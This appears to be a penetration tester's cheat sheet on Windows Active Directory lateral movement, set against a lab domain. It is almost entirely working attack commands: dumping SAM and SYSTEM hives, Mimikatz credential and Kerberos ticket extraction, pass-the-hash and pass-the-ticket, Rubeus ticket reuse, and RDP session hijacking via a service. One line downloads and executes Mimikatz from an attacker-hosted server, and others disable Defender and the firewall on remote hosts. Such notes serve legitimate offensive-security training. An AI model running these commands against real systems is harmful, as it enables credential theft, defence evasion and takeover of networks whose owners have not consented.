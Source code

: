 | SAMPLE DC RESULTS | FROM SCANS |
| --- | --- |
| NETBIOS_DOMAIN_NAME  | PENTESTING |
| NETBIOS_COMPUTER_NAME  | DC |
| DNS_DOMAIN_NAME  | pentesting.local |
| DNS_COMPUTER_NAME  | dc.pentesting.local |
| SAMPLE AD RESULTS | FROM SCANS |
| --- | --- |
| NETBIOS_DOMAIN_NAME  | PENTESTING |
| NETBIOS_COMPUTER_NAME  | AD |
| DNS_DOMAIN_NAME  | pentesting.local |
| DNS_COMPUTER_NAME  | ad.pentesting.local |
#### 74 Lateral Movement Dumping SAM and SYSTEM
>NEEDS LOCAL ADMIN USER ACCESS
>Files are found in C:\Windows\System32\config
>Cannot just be copy / pasted
>SYSTEM file acts as decryption key to hashes in SAM
cd to good working directory with write privs.
```
cd %TEMP%/Tools
```
```
reg save HKLM\sam sam
```
```
reg save HKLM\system system
```
Try using hfs.exe (HTTP File Server) to easily host files for extraction on Windows.
https://www.rejetto.com/hfs/?f=dl
May need RDP access?
wget files from kali box.
crack in kali with samdump2
```
samdump2 system sam
```
[[Hashcat#NTLM]]
#### 75 Lateral Movement SAM & LSA w/ MimiKatz
>NEEDS LOCAL ADMIN USER ACCESS
```
wget https://github.com/samratashok/nishang/raw/refs/heads/master/Gather/Invoke-Mimikatz.ps1
```
Assuming you have mimikatz.ps1 in temp/Tools directory.
```
cd %TEMP%/Tools
```
![[2._Powershell  Bypass#Execution bypass]]
```
Import-Module .\Invoke-Mimikatz.ps1
```
```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords full" "lsadump::sam" "exit"'
```
LOOK FOR RID 500!!  USE THAT USERNAME AND HASH FOR [[#76 Lateral Movement PTH w MimiKatz]]
```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords full" "lsadump::sam" "exit"' | findstr /V /R /C:"[0-9A-F][0-9A-F][ ][0-9A-F][0-9A-F][ ][0-9A-F][0-9A-F][ ][0-9A-F][0-9A-F]" | findstr "Username NTLM Password" | findstr /V "null" | select-object -unique
```
#### 76 Lateral Movement PTH w/ MimiKatz
>NEEDS LOCAL ADMIN USER ACCESS
>NEEDS RDP ACCESS! SEE [[Port 3389 - RDP ~#Enabling RDP]]
Assuming you have mimikatz.ps1 in temp/Tools directory.
```
cd %TEMP%/Tools
```
![[2._Powershell  Bypass#Execution bypass]]
```
Import-Module .\Invoke-Mimikatz.ps1
```
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:$USER /domain:$NETBIOS_DOMAIN_NAME /ntlm:$NTLM /run:powershell.exe"'
```
A new PowerShell windows will appear.
```
net use $NETBIOS_DOMAIN_NAME
```
```
klist
```
```
.\PsExec.exe \\$NETBIOS_DOMAIN_NAME cmd.exe
```
Try different hostnames found from Domain Enumeration.
```
Invoke-Command -Computername $HOSTNAME -ScriptBlock(whoami)
```
```
Invoke-Command -Computername $HOSTNAME -ScriptBlock(whoami; hostname; whoami /groups)
```
Execute commands remotely:
```
$sess = New-PSSession -ComputerName $HOSTNAME
```
Remotely disable real time monitoring on other host:
```
Invoke-Command -ScriptBlock(Set-MpPreference -DisableRealtimeMonitoring $true) -Session $sess
```
Remotely disable firewall on other host:
```
Invoke-Command -ScriptBlock(netsh Advfirewall set allprofiles state off) -Session $sess
```
Enter PS session on other host:
```
Enter-PSSession $sess
```
Download Invoke-Mimikatz.ps1 file from Windows victim and dump creds.
```
IEX(New-Object Net.WebClient).DownloadString("http://$HFS/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -Dumpcreds;
```
#### 77 Lateral Movement Pass The Ticket
>NEEDS LOCAL ADMIN USER ACCESS
Assuming you have mimikatz.ps1 in temp/Tools directory.
```
cd %TEMP%/Tools
```
![[2._Powershell  Bypass#Execution bypass]]
```
Import-Module .\invoke-mimikatz.ps1
```
Extract Kerberos ticket from LSA. - Expires in 10 hours by default.
```
Invoke-Mimikatz -Command '"Mimikatz::debug" "sekurlsa::tickets /export" "exit"'
```
We're looking for a Domain Admin user here.  Look for the "Ticket Granting Service" section.  Towards the end of it, it will say Saved to file:
`$KIRBI_TICKET == [FILENAME]-$USER@krbtgt-$DNS_DOMIAN_NAME.LOCAL.kirbi`
Find that same file name in the directory.  We will be using the krbtgt file.
```
Invoke-Mimikatz -Command '"MimiKatz::debug" "kerberos::ptt $KIRBI_TICKET  "exit"'
```
List all tickets:
```
klist
```
Run commands on other host:
```
dir \\$HOSTNAME\c$
```
Jump into PSSession on other host:
```
Enter-PSSession -ComputerName $HOSTNAME
```
#### 78 Lateral Movement Pass The Ticket w/ Rubeus - Not a easy as Mimikatz
See [[Access]] for example.
Download from:
https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
List all tickets:
```
.\Rubeus.exe klist
```
Triage all current tickets:
```
.\Rubeus.exe triage
```
```
.\Rubeus.exe dump
```
Find local domain admin user > Base64EncodedTicket.  Copy the value, paste into editor, remove \r's to make it one line.
```
Rubeus.exe ptt /ticket:$BASE64_VALUE
```
#### 79 Lateral Movement Session Hijack
>NEEDS LOCAL ADMIN USER ACCESS
Escalate to System
```
PsExec.exe -s \\localhost cmd
```
Find user sessions, need to be in Disc STATE (NOT ACTIVE)
```
query user
```
Create a service to hijack session:
>The tscon value is the ID number of the USERNAME you wish to hijack.
The /dest value is the string listed under SESSIONNAME of the current user.
```
sc create sesshijack binpath="cmd.exe /k tscon $ID_NUMBER /dest:$SESSION_NAME"
```
Start the service:
```
net start sesshijack
```
#### 80 Lateral Movement SMB Relay Attack
>NEEDS LOCAL ADMIN USER ACCESS
Download Inveigh
https://github.com/Kevin-Robertson/InveighZero
